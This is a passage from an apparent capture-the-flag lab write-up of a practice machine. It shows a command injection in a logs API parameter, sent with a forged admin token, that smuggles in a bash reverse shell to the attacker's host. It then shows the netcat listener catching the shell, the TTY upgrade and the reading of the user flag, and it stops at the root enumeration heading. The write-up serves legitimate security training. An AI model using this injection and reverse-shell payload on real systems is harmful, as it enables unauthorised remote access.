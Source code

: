 Now I can update that to a simple Bash reverse shell (and start `nc` listening in a new terminal):

```

oxdf@hacky$ curl -s -G 'http://10.10.11.120/api/logs' --data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq -r .

```

It just hangs, but at a listening `nc` there’s a shell as dasith:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.120 44874
bash: cannot set terminal process group (1093): Inappropriate ioctl for device
bash: no job control in this shell
dasith@secret:~/local-web$ id
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)

```

I’ll upgrade my shell with `script`:

```

dasith@secret:~/local-web$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
dasith@secret:~/local-web$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
dasith@secret:~/local-web$ 

```

And get `user.txt`:

```

dasith@secret:~$ cat user.txt
53744424************************

```

## Shell as root

### Enumeration
